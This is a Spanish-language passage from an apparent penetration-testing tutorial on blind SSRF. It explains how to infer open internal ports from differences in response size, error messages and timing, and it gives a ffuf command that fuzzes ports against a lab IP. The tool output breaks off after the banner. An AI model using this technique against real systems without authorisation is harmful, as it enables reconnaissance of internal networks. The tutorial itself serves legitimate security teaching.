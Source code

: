 
### SSRF Blind

Hay ocasiones en que la respuesta no se nos muestra directamente, estas son vulnerabilidades SSRF ciegas. Para identificar podemos realizar el mismo procedimiento inicial con el netcat. El problema surge cuando queremos enumerar puertos o directorios internos de una web, porque no vemos las respuestas completas, por eso, partiendo de esa base, debemos observar con cuidado las respuestas indirectas: variaciones en el tamaño del contenido, en los tiempos de respuesta, en los códigos HTTP o en los mensajes de error que cambian según la petición. Esas diferencias sutiles nos permiten inferir la existencia de puertos o rutas aunque la aplicación no muestre el contenido directamente.

#### Ejemplo

Tenemos el siguiente caso en que si el puerto es válido detectamos el siguiente mensaje:

[![ssrf10](/images/ssrf10.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssrf10.png)


Si no es válido nos entrega como respuesta lo siguiente:

[![ssrf11](/images/ssrf11.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssrf11.png)


De esta forma podremos enumerar y detectar puertos internos abiertos a través de los mensajes de errores y su tamaño en la respuesta ```-fs 21```(este último valor se debe adaptar dependiendo cada caso). Con ffuf obtendremos el siguiente resultado:

```
┌──(root㉿nptg)-[/ssrf]
└─# ffuf -w /usr/share/wordlists/ports.txt -request ssrfblind.txt -u 'http://10.129.63.215/index.php' -fs 21

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.129.63.215/index.php
```